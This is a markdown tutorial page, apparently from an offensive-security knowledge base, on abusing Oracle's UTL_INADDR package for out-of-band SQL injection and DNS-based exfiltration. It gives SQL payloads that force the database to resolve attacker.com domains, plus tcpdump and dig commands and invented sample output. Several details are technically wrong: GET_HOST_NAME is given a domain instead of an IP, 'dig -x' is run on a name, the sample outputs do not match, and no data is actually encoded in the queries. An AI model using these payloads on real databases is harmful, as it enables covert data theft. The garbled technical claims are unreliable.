

# UTL_INADDR

## Context

UTL_INADDR is a package in Oracle Database designed for resolving host names and IP addresses within the database environment. While its primary purpose is to facilitate database networking and connectivity, it's commonly targeted during SQL injection attacks, especially out-of-band (OOB) attacks, where attackers seek to extract data or perform domain name system (DNS)-based reconnaissance without triggering standard security defenses.

## Theory

### Core Idea

The UTL_INADDR package can be exploited through SQL injection techniques. Attackers leverage its functions to establish connections to external networks or perform DNS lookups, which may be used to exfiltrate data covertly or gather intelligence about the target's infrastructure.

### Core Functions

- **GET_HOST_ADDRESS**: Resolves the IP address for the given host name.
- **GET_HOST_NAME**: Resolves the host name for the given IP address.

### Risks

- **Data Leakage**: Unauthorized network traffic may lead to sensitive data being leaked.
- **External Connections**: Using DNS lookups can allow attackers to communicate with external servers, circumventing network policies.

### UTL_INADDR Overview Diagram



In the diagram above, the relationship between UTL_INADDR functions and potential risk vectors like DNS communication is illustrated, emphasizing the functions most targeted in attacks.

## Practice

### Technique: Using GET_HOST_ADDRESS for DNS Extraction

#### Steps:

1. **Crafting SQL Injection**: Utilize `UTL_INADDR.GET_HOST_ADDRESS` to initiate external DNS requests.
   ```sql
   SELECT UTL_INADDR.GET_HOST_ADDRESS('attacker.com') FROM dual;
   ```
   This query triggers the Oracle Database to resolve the specified domain to an IP address externally via DNS.

2. **Network Traffic Monitoring**: Use tools like `tcpdump` to capture outgoing DNS requests.
   ```bash
   tcpdump -i eth0 udp port 53
   ```
   This command listens for DNS traffic on the specified network interface.

3. **Expected Output**:
   ```
   12:34:56.789 IP victim_db > attacker.com: 1234+ PTR? example.com. (43)
   ```
   Analyze captured network traffic to detect unexpected DNS requests that may indicate data exfiltration attempts.

### Technique: Subverting GET_HOST_NAME for Data Exfiltration

#### Steps:

1. **Executing DNS Leakage**: Use `GET_HOST_NAME` to reverse-lookup attacker-controlled domains.
   ```sql
   SELECT UTL_INADDR.GET_HOST_NAME('data.exfiltrate.attacker.com') FROM dual;
   ```
   This query triggers an attempt to resolve a crafted domain, potentially revealing internal host details.

2. **DNS Lookup Validation**: Use `dig` or similar DNS tools to verify reverse lookup results.
   ```bash
   dig -x attacker.com
   ```

3. **Expected Output**:
   ```
   response: example.internal (10.0.0.5)
   ```
   Look for internal host and network details being indirectly leaked through DNS queries.

### Tools

- **tcpdump**: Monitor and capture network packets to check for unauthorized DNS queries.
- **Wireshark**: Analyze captured network data and observe patterns or anomalies.
- **Dig**: Perform DNS lookups and reverse lookups to confirm data flows.
- **SQL Developer**: Execute crafted SQL queries to test SQL payloads.

### Result Usage

Using these techniques and tools, attackers can gather intelligence about internal networks via DNS records, verify interactions between the database server and external systems, and assess the potential for exfiltrating sensitive information to attacker-controlled DNS servers. This understanding can help in planning further stages of intrusion but should be conducted with due authorization for ethical and legal purposes.